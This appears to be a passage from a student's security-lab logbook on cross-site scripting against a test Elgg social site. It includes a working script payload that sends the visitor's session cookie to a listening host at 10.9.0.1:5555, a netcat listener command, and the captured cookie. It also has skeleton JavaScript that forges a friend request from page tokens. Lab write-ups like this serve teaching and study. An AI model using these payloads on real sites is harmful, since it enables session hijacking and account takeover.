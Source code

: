 ## Task 3: Stealing Cookies from the Victim’s Machine

If we wanted a bit more secretive about our malicious activity under the application, we had to capture the cookie and have a program listening to what the client sends to the server.

We used an image to write the cookie inside an url and, thus, be able to capture the cookie when listening to the same port as inserted in the url. In this case, it was 5555.

We wrote this script in the same input box:
```
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
 + escape(document.cookie) + ’ >’);
 </script>
```

By listening to port 5555 using `nc-lknv 5555`, and then making Samy enter his own profile, we get his cookie in the URL encoding:

<img src="images/LOGBOOK7/samy-cookie-stolen.png" width="300" alt="stolen-cookie"/>

> c=Elgg%3D2ma5t41vrolqatsr7847743gl4 has the cookie, where `%3D` is the encoded form of character '='. Therefore the conversion is c=Elgg=2ma5t41vrolqatsr7847743gl4, same as the value shown in task 2.

## Task 4:  Becoming the Victim’s Friend
It is now time to start our exploit in befriending victims who visit Samy's profile page. We chose adding the script in the "About Me" field, since it has both the Editor mode and Text mode. We don't need the extra HTML code added in the Editor mode, so we used Text mode by clicking "Edit HTML".

The following skeleton JavaScript code was provided to us.

```javascript
 <script type="text/javascript">
 window.onload = function () {
 var Ajax=null;
 var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
 var token="&__elgg_token="+elgg.security.token.__elgg_token; 
//Construct the HTTP request to add Samy as a friend.
 var sendurl=...; //FILL IN
 //Create and send Ajax request to add friend
 Ajax=new XMLHttpRequest();
 Ajax.open("GET", sendurl, true);
 Ajax.send();
 }
 </script>
```
